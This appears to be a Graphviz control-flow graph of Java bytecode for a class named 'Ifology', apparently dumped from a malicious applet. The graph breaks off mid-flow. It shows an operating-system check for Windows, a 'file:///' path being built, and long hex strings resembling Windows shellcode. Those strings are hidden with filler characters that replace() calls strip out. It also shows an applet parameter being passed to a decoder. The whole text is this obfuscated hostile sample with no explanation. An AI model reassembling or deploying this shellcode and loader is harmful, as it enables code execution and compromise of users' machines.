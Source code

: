 digraph "" {
    "r0 := @this: Ifology"
    "push 47"
    "r0 := @this: Ifology"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <Ifology: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"->"pop";
    "push \"UosUU.naUme\""
    "pop"->"push \"UosUU.naUme\"";
    "push \"U\""
    "push \"UosUU.naUme\""->"push \"U\"";
    "push \"\""
    "push \"U\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"wieeeneee\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"wieeeneee\"";
    "push \"e\""
    "push \"wieeeneee\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <Ifology: java.lang.String repeat(char,int)>";
    "store.r r699"
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"->"store.r r699";
    "goto new java.lang.StringBuilder"
    "store.r r699"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"fileW:/WWWW/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"fileW:/WWWW/\"";
    "push \"W\""
    "push \"fileW:/WWWW/\""->"push \"W\"";
    "push \"W\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r699"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r699";
    "load.r r699"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%ZPPP%Z%ZPPPP%PPZPPPPPP%PPPPZ%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%ZPPP%Z%ZPPPP%PPZPPPPPP%PPPPZ%\"";
    "push \"P\""
    "push \"Z%ZPPP%Z%ZPPPP%PPZPPPPPP%PPPPZ%\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r699";
    "store.r r699"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"oooo5oo0oo535ooooo15oooo256ooooo5o7559ooooooooCE8oooooo00ooo0o0oo00oo0oooooo05D83ED0ooooD31oooC064o034030ooo78oooooooo0ooooCoooooo8Booo40oooo0C8Booo70oooo1CooooAoD8B4oooooo0ooo08EooooBooo0ooo98Boo40348D40ooo7C8ooB40ooo3C5oooo6\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"oooo5oo0oo535ooooo15oooo256ooooo5o7559ooooooooCE8oooooo00ooo0o0oo00oo0oooooo05D83ED0ooooD31oooC064o034030ooo78oooooooo0ooooCoooooo8Booo40oooo0C8Booo70oooo1CooooAoD8B4oooooo0ooo08EooooBooo0ooo98Boo40348D40ooo7C8ooB40ooo3C5oooo6\"";
    "push \"o\""
    "push \"oooo5oo0oo535ooooo15oooo256ooooo5o7559ooooooooCE8oooooo00ooo0o0oo00oo0oooooo05D83ED0ooooD31oooC064o034030ooo78oooooooo0ooooCoooooo8Booo40oooo0C8Booo70oooo1CooooAoD8B4oooooo0ooo08EooooBooo0ooo98Boo40348D40ooo7C8ooB40ooo3C5oooo6\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"mm57mmmmBE5Em01m0000mmm0mmmm1EEmmmBF4mmmE0mmm1mmm000m0mmm01EmmmmFEmmmmmm8D60100mmmm005mmF5Emm8mmm9mEAmmm8m1C2mm5E0m100m005mmmm2mmmmm688mmm0mmm0mmmm00mmmm0mmmm00FFmm9mmmm5mmmm4mE010mmm00mmmm0m8mmm9EA81mmmmCmmm25mmEmm0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"mm57mmmmBE5Em01m0000mmm0mmmm1EEmmmBF4mmmE0mmm1mmm000m0mmm01EmmmmFEmmmmmm8D60100mmmm005mmF5Emm8mmm9mEAmmm8m1C2mm5E0m100m005mmmm2mmmmm688mmm0mmm0mmmm00mmmm0mmmm00FFmm9mmmm5mmmm4mE010mmm00mmmm0m8mmm9EA81mmmmCmmm25mmEmm0\"";
    "push \"m\""
    "push \"mm57mmmmBE5Em01m0000mmm0mmmm1EEmmmBF4mmmE0mmm1mmm000m0mmm01EmmmmFEmmmmmm8D60100mmmm005mmF5Emm8mmm9mEAmmm8m1C2mm5E0m100m005mmmm2mmmmm688mmm0mmm0mmmm00mmmm0mmmm00FFmm9mmmm5mmmm4mE010mmm00mmmm0m8mmm9EA81mmmmCmmm25mmEmm0\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1LLL00LL0LLLL0L3LL1FL601C2LLLLLL8A9LCLLLL35LLLLLL63LLLL020LLLL00L0LLLL80LLLFLLLB0L0LLLL74L0688L1C32LLLL46EBLEEC60432LLLL008LLL9ELA8LL1CLLLLLL2LLLL450LLL200LL0LLL052FFLLL95L5LLLLLL2L01LL0LL0LLL00LLL89EA8LL1LLLLC2LL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1LLL00LL0LLLL0L3LL1FL601C2LLLLLL8A9LCLLLL35LLLLLL63LLLL020LLLL00L0LLLL80LLLFLLLB0L0LLLL74L0688L1C32LLLL46EBLEEC60432LLLL008LLL9ELA8LL1CLLLLLL2LLLL450LLL200LL0LLL052FFLLL95L5LLLLLL2L01LL0LL0LLL00LLL89EA8LL1LLLLC2LL\"";
    "push \"L\""
    "push \"1LLL00LL0LLLL0L3LL1FL601C2LLLLLL8A9LCLLLL35LLLLLL63LLLL020LLLL00L0LLLL80LLLFLLLB0L0LLLL74L0688L1C32LLLL46EBLEEC60432LLLL008LLL9ELA8LL1CLLLLLL2LLLL450LLL200LL0LLL052FFLLL95L5LLLLLL2L01LL0LL0LLL00LLL89EA8LL1LLLLC2LL\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"N500NNNN2NNNN00NNNN005N2NN5N0NNFF9NN5560NNNN10NN0006NNNA0NNNN06A0089NNNENANNNNN81CNNN2NNNN5NNE01NNN0NN0N0NNN0NN52NNN89NNENNNA81CNNN2NN7NNNN8NNN02NNNN0000NN526NNNANNN0NNNN0NNNNNNNNFFDN0NNNN6AN0NNNN5NNNNN8NNN9NNENANN81C25NNNNE01NNN00NN0NN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"N500NNNN2NNNN00NNNN005N2NN5N0NNFF9NN5560NNNN10NN0006NNNA0NNNN06A0089NNNENANNNNN81CNNN2NNNN5NNE01NNN0NN0N0NNN0NN52NNN89NNENNNA81CNNN2NN7NNNN8NNN02NNNN0000NN526NNNANNN0NNNN0NNNNNNNNFFDN0NNNN6AN0NNNN5NNNNN8NNN9NNENANN81C25NNNNE01NNN00NN0NN\"";
    "push \"N\""
    "push \"N500NNNN2NNNN00NNNN005N2NN5N0NNFF9NN5560NNNN10NN0006NNNA0NNNN06A0089NNNENANNNNN81CNNN2NNNN5NNE01NNN0NN0N0NNN0NN52NNN89NNENNNA81CNNN2NN7NNNN8NNN02NNNN0000NN526NNNANNN0NNNN0NNNNNNNNFFDN0NNNN6AN0NNNN5NNNNN8NNN9NNENANN81C25NNNNE01NNN00NN0NN\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0s52ssssFF9ssss55As0s1sss00sss0s089sssssEA81Csss25sssssE010s000sss52ssss6ss8800ssss0ssss000sss0sFFss95ssss4Essssss01sss0sss0s00sss8s9EA8ss1ssC25Essss01s000031ssFsss6sss01Cs28Asss9C35ss6E02s00ss0sss080ssss\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0s52ssssFF9ssss55As0s1sss00sss0s089sssssEA81Csss25sssssE010s000sss52ssss6ss8800ssss0ssss000sss0sFFss95ssss4Essssss01sss0sss0s00sss8s9EA8ss1ssC25Essss01s000031ssFsss6sss01Cs28Asss9C35ss6E02s00ss0sss080ssss\"";
    "push \"s\""
    "push \"0s52ssssFF9ssss55As0s1sss00sss0s089sssssEA81Csss25sssssE010s000sss52ssss6ss8800ssss0ssss000sss0sFFss95ssss4Essssss01sss0sss0s00sss8s9EA8ss1ssC25Essss01s000031ssFsss6sss01Cs28Asss9C35ss6E02s00ss0sss080ssss\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FTTTTTTB0TT0TTTTTTT74TTTTT0TT6TTTT881C3T24TTT6TTTTETBTTTTEEC6TTTT0TTTT43TTT200TTTT89ETA8TT1TTTCTTTT24502TTTT000TT0TTT52FTFT95TTTT52TTT0100TTTT008TTTT9TTEAT81CT2TTT5TT00T2TT00TTT0TTTT0525T0TTTFTTTTF9T55T60TT1TTTT0000TTTT6ATTTT0TT0T6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FTTTTTTB0TT0TTTTTTT74TTTTT0TT6TTTT881C3T24TTT6TTTTETBTTTTEEC6TTTT0TTTT43TTT200TTTT89ETA8TT1TTTCTTTT24502TTTT000TT0TTT52FTFT95TTTT52TTT0100TTTT008TTTT9TTEAT81CT2TTT5TT00T2TT00TTT0TTTT0525T0TTTFTTTTF9T55T60TT1TTTT0000TTTT6ATTTT0TT0T6\"";
    "push \"T\""
    "push \"FTTTTTTB0TT0TTTTTTT74TTTTT0TT6TTTT881C3T24TTT6TTTTETBTTTTEEC6TTTT0TTTT43TTT200TTTT89ETA8TT1TTTCTTTT24502TTTT000TT0TTT52FTFT95TTTT52TTT0100TTTT008TTTT9TTEAT81CT2TTT5TT00T2TT00TTT0TTTT0525T0TTTFTTTTF9T55T60TT1TTTT0000TTTT6ATTTT0TT0T6\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A0089OEOOOAOOOOOOOO8OO1OOOOCOOOO2OOOOOOO5OOEOOOO0100OOOOOO005OOO289OOOEOOOOA81OCOOO2OOOOAOO6OOOOO020O000OO5OOOOOO2O6A00FOOFOOOD06OOOAOOO058OOO9OOOEAOO81OOCOOOOO2OOO5OOOEO010O0OOOO00OO52OOOOFFOOOOOO955AOOO01OO0OOOO0OO0OOOO09D5D5OF5E5A5OOOO95BOOOO\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A0089OEOOOAOOOOOOOO8OO1OOOOCOOOO2OOOOOOO5OOEOOOO0100OOOOOO005OOO289OOOEOOOOA81OCOOO2OOOOAOO6OOOOO020O000OO5OOOOOO2O6A00FOOFOOOD06OOOAOOO058OOO9OOOEAOO81OOCOOOOO2OOO5OOOEO010O0OOOO00OO52OOOOFFOOOOOO955AOOO01OO0OOOO0OO0OOOO09D5D5OF5E5A5OOOO95BOOOO\"";
    "push \"O\""
    "push \"A0089OEOOOAOOOOOOOO8OO1OOOOCOOOO2OOOOOOO5OOEOOOO0100OOOOOO005OOO289OOOEOOOOA81OCOOO2OOOOAOO6OOOOO020O000OO5OOOOOO2O6A00FOOFOOOD06OOOAOOO058OOO9OOOEAOO81OOCOOOOO2OOO5OOOEO010O0OOOO00OO52OOOOFFOOOOOO955AOOO01OO0OOOO0OO0OOOO09D5D5OF5E5A5OOOO95BOOOO\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jjjj5jjjjj8Cj30jjjj0j00j0000000jj0jjjjjjj0jj0j0jjjj0jjjj00jj0jj00000jjjj0j00j0jjjj00004jjjj7657jjjj4jjjj5465jj6D7jjjj0jj5j0jjjjjjjj61jjj74jj6jj84j1jjjj00jjj4jjCjjj6F61j6jj4jjjj4jjjCjj6j9jjjj62j7j2jjj61jj72794j1jjjjjjj0j0j4765jj7jjjj45j\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jjjj5jjjjj8Cj30jjjj0j00j0000000jj0jjjjjjj0jj0j0jjjj0jjjj00jj0jj00000jjjj0j00j0jjjj00004jjjj7657jjjj4jjjj5465jj6D7jjjj0jj5j0jjjjjjjj61jjj74jj6jj84j1jjjj00jjj4jjCjjj6F61j6jj4jjjj4jjjCjj6j9jjjj62j7j2jjj61jj72794j1jjjjjjj0j0j4765jj7jjjj45j\"";
    "push \"j\""
    "push \"jjjj5jjjjj8Cj30jjjj0j00j0000000jj0jjjjjjj0jj0j0jjjj0jjjj00jj0jj00000jjjj0j00j0jjjj00004jjjj7657jjjj4jjjj5465jj6D7jjjj0jj5j0jjjjjjjj61jjj74jj6jj84j1jjjj00jjj4jjCjjj6F61j6jj4jjjj4jjjCjj6j9jjjj62j7j2jjj61jj72794j1jjjjjjj0j0j4765jj7jjjj45j\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"iiii072i6iiiiF6ii3416i46472ii65iii737iii3iii00iiii5iii76ii9ii6E4iiiii578iiiiii65ii630iii0iBB89iF2iiii8iiiii9iiF7ii30C0iAE75FD29Fi78i9Fiiii9ii31C0iiiiBiE3iiiiCiiii00i0i000iiiiiiii0iiiiii3iiiiBii5ii1Bi0ii2ii000iii0iii66iiii\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"iiii072i6iiiiF6ii3416i46472ii65iii737iii3iii00iiii5iii76ii9ii6E4iiiii578iiiiii65ii630iii0iBB89iF2iiii8iiiii9iiF7ii30C0iAE75FD29Fi78i9Fiiii9ii31C0iiiiBiE3iiiiCiiii00i0i000iiiiiiii0iiiiii3iiiiBii5ii1Bi0ii2ii000iii0iii66iiii\"";
    "push \"i\""
    "push \"iiii072i6iiiiF6ii3416i46472ii65iii737iii3iii00iiii5iii76ii9ii6E4iiiii578iiiiii65ii630iii0iBB89iF2iiii8iiiii9iiF7ii30C0iAE75FD29Fi78i9Fiiii9ii31C0iiiiBiE3iiiiCiiii00i0i000iiiiiiii0iiiiii3iiiiBii5ii1Bi0ii2ii000iii0iii66iiii\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ApppDp0p3851ppBpppp0ppp2ppp0pppp0008Bppp70pp78pppp8pppp3ppppCp6pppp1pppC03Bp5ppppppp1ppB020pppp0pppp00pp8DBppppDppp1pppF0pp20p000pppADpppp03pppp85pp1Bpppp0pppp200ppp00ApBppppADpp0p3pppppp851B02pp0ppp000pppp50ABAD0pppp38pppp5pp1pB02ppp0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ApppDp0p3851ppBpppp0ppp2ppp0pppp0008Bppp70pp78pppp8pppp3ppppCp6pppp1pppC03Bp5ppppppp1ppB020pppp0pppp00pp8DBppppDppp1pppF0pp20p000pppADpppp03pppp85pp1Bpppp0pppp200ppp00ApBppppADpp0p3pppppp851B02pp0ppp000pppp50ABAD0pppp38pppp5pp1pB02ppp0\"";
    "push \"p\""
    "push \"ApppDp0p3851ppBpppp0ppp2ppp0pppp0008Bppp70pp78pppp8pppp3ppppCp6pppp1pppC03Bp5ppppppp1ppB020pppp0pppp00pp8DBppppDppp1pppF0pp20p000pppADpppp03pppp85pp1Bpppp0pppp200ppp00ApBppppADpp0p3pppppp851B02pp0ppp000pppp50ABAD0pppp38pppp5pp1pB02ppp0\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"g000ggggggggAggB5E31DggggBggAD56gg0385gggg1Bgggg020gg0ggg00gggg89gggCggg68g9ggD751gFCggggFgggg3gggAggg659740ggg4gg5E43gggEBgggEgggg95E9ggg3ggggggD1E0038ggggg52702000ggg03gg1Fgggg696ggg6g6ADgggggC1Egggg0ggg0gg203gggg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"g000ggggggggAggB5E31DggggBggAD56gg0385gggg1Bgggg020gg0ggg00gggg89gggCggg68g9ggD751gFCggggFgggg3gggAggg659740ggg4gg5E43gggEBgggEgggg95E9ggg3ggggggD1E0038ggggg52702000ggg03gg1Fgggg696ggg6g6ADgggggC1Egggg0ggg0gg203gggg\"";
    "push \"g\""
    "push \"g000ggggggggAggB5E31DggggBggAD56gg0385gggg1Bgggg020gg0ggg00gggg89gggCggg68g9ggD751gFCggggFgggg3gggAggg659740ggg4gg5E43gggEBgggEgggg95E9ggg3ggggggD1E0038ggggg52702000ggg03gg1Fgggg696ggg6g6ADgggggC1Egggg0ggg0gg203gggg\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"eeee8e51eFeeee0eeeee2eeeeee0eeee00eeee089C6AeeDee0ee3eeee8eeeeee5eee1eeeBeeeeee0eee2e0ee0e0eeee0eeeC3EBee1eee0000ee000eee0eee0ee0000eee00eeee00000e0000e0eee00e0000ee008ee9eee8e5eee1eeeeB0eeeeeee2000eeee0eeee5657eeeEee858FFeeeeFFeeeFeeeeF5eeFee5e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"eeee8e51eFeeee0eeeee2eeeeee0eeee00eeee089C6AeeDee0ee3eeee8eeeeee5eee1eeeBeeeeee0eee2e0ee0e0eeee0eeeC3EBee1eee0000ee000eee0eee0ee0000eee00eeee00000e0000e0eee00e0000ee008ee9eee8e5eee1eeeeB0eeeeeee2000eeee0eeee5657eeeEee858FFeeeeFFeeeFeeeeF5eeFee5e\"";
    "push \"eeee8e51eFeeee0eeeee2eeeeee0eeee00eeee089C6AeeDee0ee3eeee8eeeeee5eee1eeeBeeeeee0eee2e0ee0e0eeee0eeeC3EBee1eee0000ee000eee0eee0ee0000eee00eeee00000e0000e0eee00e0000ee008ee9eee8e5eee1eeeeB0eeeeeee2000eeee0eeee5657eeeEee858FFeeeeFFeeeFeeeeF5eeFee5e\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E:::A:B:0::1:::CE80::::3EBB7:402E::::BE:::DC3:::::::5:::5524C4:D4F:4:::E::::2:E44::4:C:::::::4:C::0::05:::5:::5::::::24::C::::446F::::77:::6:::E6C6F6::::1:::6:::4546::::F::46696::::C:::65::4:::100706:::46:::6757::::06::::42E6::::5:7:86:::500:::6:::37::2::61736:82E::::70::6:::8::70:::00::::\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E:::A:B:0::1:::CE80::::3EBB7:402E::::BE:::DC3:::::::5:::5524C4:D4F:4:::E::::2:E44::4:C:::::::4:C::0::05:::5:::5::::::24::C::::446F::::77:::6:::E6C6F6::::1:::6:::4546::::F::46696::::C:::65::4:::100706:::46:::6757::::06::::42E6::::5:7:86:::500:::6:::37::2::61736:82E::::70::6:::8::70:::00::::\"";
    "push \":\""
    "push \"E:::A:B:0::1:::CE80::::3EBB7:402E::::BE:::DC3:::::::5:::5524C4:D4F:4:::E::::2:E44::4:C:::::::4:C::0::05:::5:::5::::::24::C::::446F::::77:::6:::E6C6F6::::1:::6:::4546::::F::46696::::C:::65::4:::100706:::46:::6757::::06::::42E6::::5:7:86:::500:::6:::37::2::61736:82E::::70::6:::8::70:::00::::\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r143"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r143";
    "load.r r0"
    "store.r r143"->"load.r r0";
    "push \"smitmmmmmmmmemmm\""
    "load.r r0"->"push \"smitmmmmmmmmemmm\"";
    "push \"smitmmmmmmmmemmm\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>";
    "push \"ooo0090oooo\""
    "virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>"->"push \"ooo0090oooo\"";
    "push \"ooo0090oooo\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r182"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r182";
    "staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>"
    "store.r r182"->"staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>";
    "store.r r876"
    "staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>"->"store.r r876";
    "store.r r876"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r143"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r143";
    "load.r r143"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r143";
    "store.r r143"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r143";
    "load.r r143"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r876"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r876";
    "load.r r876"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
